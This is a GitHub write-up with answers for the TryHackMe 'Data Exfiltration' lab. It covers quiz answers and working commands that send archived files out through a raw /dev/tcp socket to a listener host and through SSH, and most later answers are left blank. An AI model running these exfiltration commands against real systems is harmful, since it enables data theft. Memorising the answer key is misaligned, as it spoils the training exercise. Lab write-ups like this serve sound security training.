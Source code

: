 ![Data Exfiltration Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/dataxexfilt/Data_Exfiltration_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/dataxexfilt/Data_Exfiltration_Cover.png" alt="Data Exfiltration Logo">
</p>

# Data Exfiltration

This guide contains the answer and steps necessary to get to them for the [Data Exfiltration](https://tryhackme.com/r/room/dataxexfilt) room.

## Table of contents

- [Data Exfiltration](#data-exfiltration)
- [Exfiltration using TCP socket](#exfiltration-using-tcp-socket)
- [Exfiltration using SSH](#exfiltration-using-ssh)
- [Exfiltrate using HTTP(S)](#exfiltrate-using-http(s))
- [Exfiltration using ICMP](#exfiltration-using-icmp)
- [DNS Configurations](#dns-configurations)
- [Exfiltration over DNS](#exfiltration-over-dns)
- [DNS Tunneling](#dns-tunneling)

### Data Exfiltration

1. In which case scenario will sending and receiving traffic continue during the connection?

   This answer can be found in the text.

   ><details><summary>Click for answer</summary>Tunneling</details>

2. In which case scenario will sending and receiving traffic be in one direction?

   This answer can be found in the text.

   ><details><summary>Click for answer</summary>Traditional data exfiltration</details>

3. In the next task, we will be discussing how data exfiltration over the TCP socket works!

### Exfiltration using TCP socket

1. Exfiltration using TCP sockets relies on ____________ protocols!

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>Non-standard</details>

2. Now apply what we discussed to exfiltrate data over the TCP socket! Once you exfiltrate data successfully, hitCompletedto move on to the next task!

   We need to ssh into the jump server and setup a listener that outputs the result to a file.

   ```console
   ssh thm@10.10.66.20
   nc -nlvp 1337 > /tmp/task4-creds.data
   ```

   Next we ssh into the victim1 machine through the jumpserver.

   ```console
   ssh thm@10.10.66.20
   ssh thm@victim1.thm.com
   ```

   TCP LISTENER

   Next we compress and encode the data we want to exfiltrate in the 'task4' folder.

   ```console
   tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/1337
   ```

   This command will also send the data over the TCP socket.

   TCP EXFILTRATE

   Now that the files have been transfered to the jump server, we can decode en decompress the archive to get to the files.

   ```console
   dd conv=ascii if=task4-creds.data | base64 -d > task4-creds.tar
   tar xvf task4-creds.tar
   ```

   TCP FILES

### Exfiltration using SSH

1. All packets sent using the Data Exfiltration technique over SSH are encrypted! (T=True/F=False)

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>T</details>

2. Replicate the steps to transfer data over the SSH client. Once you transfer the file successfully, hitCompletedand move on to the next task!

   On victim 1 we can archive the folder and send it directly through the SSH client.

   ```console
   tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
   ```

   SSH EXFILTRATE

   SSH FILES

### Exfiltrate using HTTP(S)

1. Check the Apache log file onweb.thm.comand get the flag!



   ><details><summary>Click for answer</summary></details>

2. When you visit thehttp://flag.thm.com/flagwebsite through the uploader machine via the HTTP tunneling technique, what is the flag?



   ><details><summary>Click for answer</summary></details>

### Exfiltration using ICMP

1. In which ICMP packet section can we include our data?



   ><details><summary>Click for answer</summary></details>

2. Follow the technique discussed in this task to establish a C2 ICMP connection between JumpBox and ICMP-Host. Then execute the "getFlag" command. What is the flag?



   ><details><summary>Click for answer</summary></details>

### DNS Configurations

1. Once the DNS configuration works fine, resolve theflag.thm.comdomain name. What is the IP address?



   ><details><summary>Click for answer</summary></details>

### Exfiltration over DNS

1. What is the maximum length for the subdomain name (label)?



   ><details><summary>Click for answer</summary></details>

2. The Fully Qualified FQDN domain name must not exceed ______characters.



   ><details><summary>Click for answer</summary></details>

3. Execute the C2 communication over the DNS protocol of theflag.tunnel.com. What is the flag?



   ><details><summary>Click for answer</summary></details>

### DNS Tunneling

1. When the iodine connection establishes to Attacker, run theifconfigcommand. How many interfaces are? (including the loopback interface)



   ><details><summary>Click for answer</summary></details>

2. What is the network interface name created by iodined?



   ><details><summary>Click for answer</summary></details>

3. Use the DNS tunneling to prove your access to the webserver,http://192.168.0.100/test.php. What is the flag?



   ><details><summary>Click for answer</summary></details>

